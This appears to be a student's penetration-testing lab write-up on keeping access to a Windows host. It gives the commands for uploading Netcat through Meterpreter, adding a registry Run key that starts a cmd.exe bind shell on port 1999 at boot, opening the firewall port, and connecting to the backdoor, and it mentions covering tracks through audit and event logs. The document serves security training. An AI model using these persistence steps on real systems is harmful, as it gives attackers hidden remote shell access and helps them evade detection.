 # Retaining Access

## Discription
This lab focuses on the critical aspect of penetration testing: retaining access and covering tracks after successfully infiltrating a system. The objective is to install a backdoor to maintain access, even if the initial vulnerability is patched or discovered by the target organization. This lab utilizes tools like Netcat (nc) and the Meterpreter shell in Kali Linux.

## Key Steps

1. Gaining Initial Access:

   - Reuse the exploit from a previous module to gain access to the target machine using Meterpreter.

2. Installing a Backdoor:

   - Upload and install nc.exe (Netcat) to the target Windows machine.
   - Modify the system registry to ensure Netcat starts on system boot, listening on port 1999.
   - Ensure the firewall settings allow traffic on the specified port.

3. Maintaining Access:

   - Test the backdoor to ensure it provides a command shell to the Kali machine.
   - Confirm successful backdoor installation by executing commands like ipconfig and providing screenshots.

4. Covering Tracks:

   - Check the target’s audit settings using auditpol.
   - Manipulate or review event logs to assess the stealthiness of the penetration.

## Commands and Screenshots
### Screenshots were taken throughout the process to document access, command execution, and configuration changes.


#### Meterpreter access on your target host

<img src="https://i.imgur.com/rWefLNQ.png"/>

#### Shell command to list the audit settings.
```ps
auditpol /get /category:*
```

<img src="https://i.imgur.com/iCIwRDe.png"/>

<img src="https://i.imgur.com/6DphOwU.png"/>

#### Command for metepreter shell that will upload the nc.exe program to the target host's windows\system32 directory
```ps
upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32
```

<img src="https://i.imgur.com/mJyeTK4.png"/>

#### Command set nc to start as a listener on port 1999 by changing the target host's system registry
```ps
reg enumkey –k HKLM\\software\\microsoft\\windows\\currentversion\\run
reg setval –k HKLM\\software\\microsoft\\windows\\currentversion\\run –v nc –d ‘C:\windows\system32\nc.exe –Ldp 1999 –e cmd.exe’
```
#### Command to verify Netcat is set to automatically run on startup
```ps
reg queryval –k HKLM\\software\\microsoft\\windows\\currentversion\\Run –v nc
```

<img src="https://i.imgur.com/AJSSWNn.png"/>


#### Command to display target host's firewall settings
```ps
netsh firewall show opmode
```

<img src="https://i.imgur.com/04eLDn6.png"/>

#### Command to set target firewall to open port 1999
```ps
netsh firewall add portopening TCP 1999 “Service Firewall” ENABLE ALL
```

#### Command to verify firewall configuration for open ports
```ps
netsh firewall show portopening
```

<img src="https://i.imgur.com/6Al7h1I.png"/>


#### Command to access target host through backdoor at prot 1999
```ps
nc –v 10.19.99.110 1999
```

<img src="https://i.imgur.com/C0uk1OC.png"/>
